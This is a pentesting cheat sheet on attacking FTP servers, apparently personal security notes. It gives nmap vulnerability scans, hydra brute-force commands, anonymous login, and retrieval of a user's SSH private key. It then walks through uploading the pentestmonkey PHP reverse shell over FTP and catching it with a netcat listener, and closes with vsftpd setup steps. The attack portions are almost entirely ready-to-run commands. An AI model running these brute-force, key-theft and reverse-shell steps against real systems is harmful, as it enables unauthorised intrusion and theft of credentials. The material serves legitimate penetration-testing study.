 ```yaml
---
title: FTP (File Transfer Protocol) Pentesting
description: FTP is a standard communication protocol used for the transfer of computer files from a server to a client on a computer network. Default ports are 20 (for data), 21 (for control).
tags:
    - Network
    - Reverse Shell
refs:
date: 2023-10-30
draft: false
---
```


## Enumeration

```sh
nmap --script ftp-anon -p 21 <target-ip>
nmap --script ftp-vuln* -p 21 <target-ip>
nmap --script ftp-* -p 21 <target-ip>
```

### Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> ftp
hydra -L username.txt -p password <target-ip> ftp

hydra -l username -P passwords.txt ftp://<target-ip>
hydra -L usernames.txt -p password ftp://<target-ip>
```

<br />

## Investigation

### Banner Grabbing

```sh
nc <target-ip> 21
```

### Using OpenSSL

First off, open listener.

```sh
nc -vn <target-ip> 21
```

Then run the command below.

```sh
openssl s_client -connect <target-ip>:21 -starttls ftp
```

### Configuration Files

```sh
cat /etc/vsftpd.conf
cat /etc/vsftpd/vsftpd.conf
```

<br />

## Connect

### Using `ftp`

```sh
ftp <target-ip>
ftp <target-ip> <target-port>
```

Sometimes we might be able to the **anonymous** login.  
Not likely, but worth a try.

```sh
ftp <target-ip>
username: anonymous
password: anonymous
```

### Using `lftp`

`lftp` is the enhanced version of `ftp`. It's more easier to use than `ftp`.

```sh
lftp
lftp :-> connect
# or
lftp 10.0.0.1

# Login with username and password
lftp 10.0.0.1:-> login username password
```

<br />

## Commands in FTP

After connecting FTP, we can search directories and files, then download them to your local machine, and put local files to the target system.  
The FTP commands are almost the same as Linux commands.

```sh
ftp> pwd
ftp> cd
ftp> ls
# Print the content of the file
ftp> get example.txt -

# Switch to passive mode.
ftp> passive

# Print usage
ftp> ?
```

### Transfer Files

To transfer files to local machine,

```sh
ftp> get example.txt
ftp> get home/user/.ssh/id_rsa ./id_rsa

# recursive
wget -r --user='username' --password='password' ftp://<target-ip>/sample
```

<br />

## Reverse Shell over Website

If the target website allows users to access the ftp directory, we can upload the exploit for the reverse shell and get a shell.  

1. **Download the Payload**

    Get the payload for the reverse shell from [this repository](https://github.com/pentestmonkey/php-reverse-shell).

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # --------------------------------------------------------------------------------

    # Edit some variables in shell.php
    $ip = '<your-local-ip>';
    $port = 1234;
    ```

2. **Upload the Payload to FTP Directory**

    Connect to FTP and upload the payload.

    ```sh
    ftp <target-ip>

    # Upload the payload you downloaded
    ftp> put shell.php
    ```

3. **Get a Shell**

    At first, w need to open listener in your local machine.

    ```sh
    nc -lvnp 1234
    ```

    In a web browser, access to "http://vulnerable.com/path/to/ftp/shell.php".  
    We should get a target shell.

<br />

## Start FTP Server

### 1. Install vsftpd

```bash
sudp apt install vsftpd
```

To check the config file for vsftpd, run the following command.

```bash
less /etc/vsftpd.conf
```

### 2. Start FTP Server

Below are commands for starting FTP server and checking the status.

```bash
sudo systemctl start vsftpd
sudo systemctl status vsftpd
```

If you’ve updated the config file, you need to restart vsftpd.

```bash
sudo systemctl restart vsftpd
```
